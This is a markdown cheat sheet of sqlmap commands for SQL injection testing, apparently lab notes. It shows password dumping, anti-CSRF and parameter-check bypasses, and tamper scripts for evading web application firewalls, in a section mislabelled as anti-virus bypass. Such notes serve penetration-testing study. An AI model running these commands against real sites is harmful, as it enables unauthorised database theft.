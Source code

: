 `sqlmap -u "http://www.example.com/?id=1" --passwords --batch`

---
## Anti-Virus bypass techniques
* Anti-CSRF Token Bypass
```bash
sqlmap -u "http://www.example.com/" --data="id=1&csrf-t0ken=token" --csrf-token="csrf-t0ken"
```
* Unique Value Bypass
```shell
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch
```
* Calculated Parameter Bypass
```bash
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch
```
#### Tamper Scripts  
example:
```bash
sqlmap -r req.txt --batch --tamper=between,randomcase -T flag11 --dump
```

| **Tamper-Script**           | **Description**                                                                                                                  |
| --------------------------- | -------------------------------------------------------------------------------------------------------------------------------- |
| `0eunion`                   | Replaces instances of UNION with e0UNION                                                                                         |
| `base64encode`              | Base64-encodes all characters in a given payload                                                                                 |
| `between`                   | Replaces greater than operator (`>`) with `NOT BETWEEN 0 AND #` and equals operator (`=`) with `BETWEEN # AND #`                 |
| `commalesslimit`            | Replaces (MySQL) instances like `LIMIT M, N` with `LIMIT N OFFSET M` counterpart                                                 |
| `equaltolike`               | Replaces all occurrences of operator equal (`=`) with `LIKE` counterpart                                                         |
| `halfversionedmorekeywords` | Adds (MySQL) versioned comment before each keyword                                                                               |
| `modsecurityversioned`      | Embraces complete query with (MySQL) versioned comment                                                                           |
| `modsecurityzeroversioned`  | Embraces complete query with (MySQL) zero-versioned comment                                                                      |
| `percentage`                | Adds a percentage sign (`%`) in front of each character (e.g. SELECT -> %S%E%L%E%C%T)                                            |
| `plus2concat`               | Replaces plus operator (`+`) with (MsSQL) function CONCAT() counterpart                                                          |
| `randomcase`                | Replaces each keyword character with random case value (e.g. SELECT -> SEleCt)                                                   |
| `space2comment`             | Replaces space character ( ) with comments `/                                                                                    |
| `space2dash`                | Replaces space character ( ) with a dash comment (`--`) followed by a random string and a new line (`\n`)                        |
| `space2hash`                | Replaces (MySQL) instances of space character ( ) with a pound character (`#`) followed by a random string and a new line (`\n`) |
| `space2mssqlblank`          | Replaces (MsSQL) instances of space character ( ) with a random blank character from a valid set of alternate characters         |
| `space2plus`                | Replaces space character ( ) with plus (`+`)                                                                                     |
| `space2randomblank`         | Replaces space character ( ) with a random blank character from a valid set of alternate characters                              |
| `symboliclogical`           | Replaces AND and OR logical operators with their symbolic counterparts (`&&` and `\|`)                                           |
| `versionedkeywords`         | Encloses each non-function keyword with (MySQL) versioned comment                                                                |
| `versionedmorekeywords`     | Encloses each keyword with (MySQL) versioned comment                                                                             |
| `--list-tampers`            | To see all tamper scripts use                                                                                                    |

---